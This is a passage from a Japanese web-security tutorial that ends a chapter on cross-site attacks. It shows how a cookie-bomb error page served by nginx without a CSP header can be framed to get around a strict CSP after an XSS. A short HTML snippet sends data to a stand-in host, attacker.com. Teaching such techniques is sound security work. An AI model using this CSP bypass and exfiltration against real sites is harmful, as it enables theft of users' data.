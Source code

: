 一見すると問題ないように見えます。しかし、nginxが4xxまたは5xxエラーを返した場合、このヘッダーはレスポンスに追加されません。これはnginxのデフォルトの動作であり、[ドキュメント](https://nginx.org/en/docs/http/ngx_http_headers_module.html#add_header)にも記載されています。

> レスポンスコードが200、201（1.3.10）、204、206、301、302、303、304、307（1.1.16、1.0.13）、または308（1.13.0）の場合に限り、指定されたフィールドをレスポンスヘッダーに追加します。

したがって、Cookie Bombを使用して、CSPヘッダーのないエラーページを作成できます。一部の人々は疑問に思うかもしれませんが、これはエラーページなので、CSPがないことに何の意味があるのでしょうか？

元のページに非常に厳格なCSPがあり、すべてのディレクティブが`'self'`に設定され、`script-src`にのみ追加の`unsafe-inline`があるとします。そして、XSS脆弱性を見つけたとします。これにより、コードを実行できます。

しかし問題は、私たちのデータが送信できないことです！CSPのため、すべての外部リンクがブロックされています。この時点で、Cookie Bombを使用して最初に`/test`ページを攻撃し、次に`/test`ページをiframeに入れます。

iframe内に入ると、同一オリジンポリシーにより、CSPのない`/test`ページに直接アクセスできます。したがって、このページからリクエストを送信できます。次の例を参照してください。

```html
<iframe id=f src="/test" onload=run()></iframe>
<script>
  function run() {
    f.contentWindow.fetch('https://attacker.com?data=...')
  }
</script>
```

このようなメソッドは、DoSとiframeを組み合わせてCSP制限をバイパスします。

（ちなみに、CSPは現在「すべての外部リンクをブロックする」ことはできません。外部にリクエストを送信するだけなら、ページリダイレクトに`location=...`を使用するなど、より高速な方法があります。）

## 結論

この記事では、CookieをDoS攻撃の実行手段として使用し、ウェブページの読み込みを妨げる別の方法を見てきました。この脆弱性自体は大きな影響はありませんが、多くの企業はこれをセキュリティ脆弱性とは見なしていません。しかし、他の手法と組み合わせると、より影響力のある脆弱性になる可能性があります。

これで第4章「クロスサイト攻撃」は終わりです。最近の記事では、まずオリジンとサイトの違いを理解し、次にCORS設定と誤設定の結果について学びました。また、CSRFとSame-site Cookieについても調査し、最後にSame-siteの制御権を取得した後に実行できる攻撃について議論しました。

次の記事からは、第5章「その他の興味深いトピック」に入ります。

この記事は以下を改作したものです：[Cookieの特性を利用したDoS攻撃：Cookie爆弾](https://blog.huli.tw/2021/07/10/ja/cookie-bomb/)
